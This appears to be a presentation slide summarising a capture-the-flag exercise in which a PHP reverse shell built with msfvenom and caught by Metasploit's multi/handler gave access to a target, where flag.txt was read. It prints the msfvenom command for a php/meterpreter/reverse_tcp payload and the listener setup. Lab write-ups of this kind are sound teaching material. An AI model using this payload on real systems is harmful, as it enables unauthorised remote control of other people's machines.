

# Exploitation: [PHP Reverse Shell Payload with Metasploit]
01

02

03

Tools & Processes
A PHP script and Metasploit via Kali Linux

Achievements
A shell was able to properly set up on the target machine. And with this crucial connection having been made, we thus were able to navigate to the (/) directory and “capture the flag” via the file appropriately named (flag.txt).

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php

msfconsole

exploit/multi/handler

set payload php/meterpreter/reverse_tcp